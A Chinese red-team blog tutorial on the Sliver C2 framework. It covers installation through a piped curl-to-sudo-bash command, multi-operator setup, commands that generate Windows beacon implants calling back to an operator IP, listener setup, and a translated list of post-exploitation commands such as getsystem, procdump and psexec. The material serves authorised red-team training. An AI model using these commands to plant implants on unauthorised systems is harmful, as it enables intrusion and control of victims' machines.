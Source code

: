 ```yaml
---
title: Sliver（一）：Sliver基础
tags: RedTeam,Tools
---
```


# 介绍

Sliver是一个开源的C2项目，用Golang开发。Sliver的操作与Metasploit的操作类似，但它支持多用户协同。与Cobalt Strike相比，它支持Macos、Windows、Linux客户端以及implant的生成，但它不具备GUI界面，官方提供了一个GUI项目，但是目前已经废弃。项目地址：https://github.com/BishopFox/sliver。

总体来说作为CS的开源替代品是非常好的选择，且二开相对简单，适合作为个人或团队的定制C2框架。

# 安装

在Linux服务器中执行 `curl https://sliver.sh/install|sudo bash` 即可完成安装，安装后主要会生成sliver-server、sliver-client和sliver三个可执行程序。

sliver-server在root目录下，是服务端程序，如果要实现多用户操作，必须启动此程序，后续新建用户等操作都需要在此程序下操作`sudo /root/sliver-server` 。

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108002.png)

用户端可以直接去github上下载对应架构的客户端https://github.com/BishopFox/sliver/releases。

sliver在终端模式下是具备自动补全功能的，因此可以多使用Tab。

# 多用户模式

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108864.png)

在Server端中新建用户：`new-operator --name client -l 198.19.249.24 -p 20000` 

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108139.png)

输入`multiplayer -l 20000` 启动指定端口的多用户模式。

将配置文件复制到client机器的~/.sliver-client/configs目录中，再启动sliver-client。

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108615.png)

# Beacons & Sessions

Sliver在远程控制上提供了Beacon模式和Session模式。

Session模式下，Sliver会和受控主机建立持续的连接，执行的命令会立刻返回结果，方便但容易被发现。

Beacon模式下，Sliver与Cobalt Strike一样，有休眠时间，执行的命令会排队，等待受控主机一定时间后执行并返回结果，相对较为隐蔽。

## implant生成

Sliver目前总共支持五种协议：mtls、http/s、dns、wireguard。

生成命令：

```jsx
generate beacon --arch amd64 --os windows --mtls 198.19.249.24:3306 --save ./test.exe 
```

如果想生成的是Session模式，去掉beacon即可。

生成时需要记住很多参数，为了方便，Sliver提供了Profiles来简化这个过程：

```jsx
profiles new --mtls 198.19.249.24:3306 --os windows --arch amd64 --format exe windows_default
```

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108039.png)

需要使用时执行`profiles generate --save ./test.exe  windows_default` 。

输出`implants`可以看到所有生成的implant：

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108276.png)

## 监听

开启监听只需要使用对应implant的协议名 -l 端口号即可

```jsx
mtls -l 3306
```

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108534.png)

使用jobs可以看到当前开启的监听任务：

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108189.png)

job1是sliver多用户模式下开启的grpc端口，用于多用户协同操作，job2就是刚刚开启的监听端口。

## 上线

在受控主机上点击木马后，server端和client端都会接到消息：

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108052.png)

输入`beacons`可以看到上线的beacon的信息：

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108892.png)

`use`命令可以进入该beacon，进入后可以执行`interactive` 转换出一个session，由于需要等待休眠时间，所以需要等待一会儿。

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108469.png)

转换完成后再执行`sessions` 可以看到相关信息：

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108397.png)

`use`命令可以进入该session。

## 命令列表

```jsx
Sliver:
=======
  cat                查看文件
  cd                 切换目录
  chmod              修改文件或文件夹权限
  chown              修改文件或文件夹所属
  chtimes            修改文件的创建时间和修改时间
  close              不关闭进程的情况下关闭session
  download           下载文件
  execute            执行程序
  execute-shellcode  sliver进程里执行shellcode
  extensions         管理扩展
  getgid             获取 GID
  getpid             获取 session pid
  getuid             获取 session UID
  ifconfig           查看网络配置
  info               查看session信息
  interactive        beacon生成session
  kill               Kill session
  ls                 列出当前目录列表
  memfiles           列出当前 memfiles（unknown）
  mkdir              创建目录
  msf                在当前进程下执行 MSF payload
  msf-inject         往一个进程中注入 MSF payload
  mv                 文件移动或重命名
  netstat            输出网络连接信息
  ping               不使用ICMP，给木马发送回环消息
  pivots             给存活的session列出pivots（unknown）
  portfwd            TCP端口转发
  procdump           Dump进程内存
  ps                 列出进程列表
  pwd                打印当前目录
  reconfig           beacon/session恢复配置
  rename             给beacon/session重命名
  rm                 删除文件或目录
  rportfwd           反向端口转发
  screenshot         屏幕截图
  shell              开启shell
  shikata-ga-nai     二进制shellcode编码器
  sideload           在远程进程中加载和执行共享对象(共享库/DLL)
  socks5             socks5代理
  ssh                在远程主机上执行ssh命令
  terminate          在远程主机上关闭一个进程
  upload             上传文件
  whoami             获取当前用户
```

### Windows特定命令

```jsx
Sliver - Windows:
=================
  backdoor          使用shellcode感染一个远程的文件
  dllhijack         DLL劫持
  execute-assembly  在子进程中加载和执行.NET程序集
  getprivs          获取当前权限
  getsystem         获取一个NT AUTHORITY\SYSTEM的shell
  impersonate       模拟已登录的用户
  make-token        使用指定的凭据创建新的登录会话
  migrate           进程迁移
  psexec            在远程目标上启动一个sliver服务
  registry          操作windows注册表
  rev2self          Revert to self: lose stolen Windows token
  runas             在指定用户的上下文中运行一个新进程
  spawndll          在远程进程中加载和执行反射DLL
```